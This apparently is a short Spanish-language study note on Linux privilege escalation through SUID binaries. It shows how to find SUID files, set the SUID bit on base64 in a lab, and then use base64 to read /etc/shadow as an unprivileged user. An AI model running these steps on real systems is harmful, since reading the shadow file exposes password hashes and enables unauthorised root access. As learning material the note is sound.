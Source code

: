 
> Se utiliza mucho [[GTFOBins]]

### Buscar binarios SUID
```bash
find / -perm -4000 -type f 2>/dev/null
```



para esclarar privilegios mediante esta tecnica puede verse por ejemplo lo siguiente

a modo de prueba se le da a base64 permisos 

primero si quieres ver que permisos tiene el binario
```bash
which base64 | xargs ls -l
```

para darle los permisos
```sh
chmod u+s $(which base64)
```


recordar que [[SUID y SGID]] permite a los usuarios ejecutar archivos con los permisos del propietario o grupo del archivo, en lugar de con los permisos del usuario que lo ejecuta.

si como usuario no privilegiado intento catear el etc shadows no me va a dejar. pero como tenemos el SUID puesto en base64 podemos hacer lo siguiente

```bash
base64 /etc/shadow
```

[[base64]] va a ejecutar como root y luego podemos agregar el decodificador para ver el contenido

```bash
base64 /etc/shadow | base64 -d
```


